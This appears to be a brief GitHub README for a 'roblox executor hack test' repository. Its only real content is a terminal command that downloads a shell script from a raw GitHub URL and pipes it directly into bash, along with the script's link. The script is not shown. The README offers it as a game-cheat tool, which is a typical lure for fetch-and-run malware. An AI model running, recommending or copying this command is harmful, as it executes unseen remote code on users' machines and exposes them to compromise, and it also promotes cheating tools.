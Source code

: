 # freesploittest
roblox executor hack test

terminal command:
cd ~/ && curl -s "https://raw.githubusercontent.com/PHATIDIOT/freesploittest/main/test1.sh" | bash
raw: https://raw.githubusercontent.com/PHATIDIOT/freesploittest/main/test1.sh
